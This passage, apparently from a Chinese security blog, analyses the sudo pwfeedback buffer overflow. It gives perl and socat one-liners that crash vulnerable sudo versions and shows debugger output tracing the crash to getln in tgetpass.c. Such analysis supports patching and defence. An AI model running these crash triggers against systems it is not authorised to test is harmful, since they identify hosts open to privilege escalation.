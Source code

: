 2、低于 1.8.26 版本的 sudo 也可以通过以下命令进行检测，如果出现 Segmentation fault 就代表存在漏洞：

```
strawberry@ubuntu:~$ perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
[sudo] password for strawberry: Segmentation fault (core dumped)


```

3、低于 1.8.31 版本的 sudo 也可通过以下命令进行检测：

```
strawberry@ubuntu:~$ socat pty,link=/tmp/pty,waitslave exec:"perl -e 'print((\"A\" x 100 . chr(0x15)) x 50)'" &
[4] 82553
strawberry@ubuntu:~$ sudo -S id < /tmp/pty
[sudo] password for strawberry: Segmentation fault (core dumped)


```

漏洞分析
----

首先说一下，这是在 Ubuntu 上进行复现分析的，sudo 版本为 1.8.21p1。pwfeedback 不是 sudo 的默认配置，因而需要向 / etc/sudoers 文件中加入 pwfeedback，开启此功能的 sudo 在用户输入密码时会逐位显示 * 号：

```
Defaults        env_reset,pwfeedback


```

使用上面的第一个 POC 对 sudo 进行调试分析：直接运行程序，发现其崩在 getln 函数内部，原因是无法访问 0x560a0de9c000 处的内存。这里的 cp 是指向 buf 的指针，通过 * cp++ 向该缓冲区中写入数据。此时 buf 的长度为 3392，显然是在写入数据的过程中访问了无法访问的内存而崩溃的。另外，buf 位于 bss 段（大小为 0x100），所以也不是传说中的栈溢出。

```
→  0x560a0dc90298 <getln.constprop+376> mov    BYTE PTR [r15], dl
   0x560a0dc9029b <getln.constprop+379> add    r15, 0x1
   0x560a0dc9029f <getln.constprop+383> mov    QWORD PTR [rsp+0x8], r14
   0x560a0dc902a4 <getln.constprop+388> sub    r14, 0x1
   0x560a0dc902a8 <getln.constprop+392> test   r14, r14
   0x560a0dc902ab <getln.constprop+395> jne    0x560a0dc90188 <getln+104>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── source:./tgetpass.c+334 ────
    329         }
    330         continue;
    331         }
    332         ignore_result(write(fd, "*", 1));
    333     }
 →  334     *cp++ = c;
    335      }
    336      *cp = '\0';
    337      if (feedback) {
    338     /* erase stars */
    339     while (cp > buf) {
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "sudo", stopped 0x560a0dc90298 in getln (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x560a0dc90298 → getln(fd=0x0, buf=0x560a0de9b2c0 <buf> 'A' <repeats 3392 times><


```
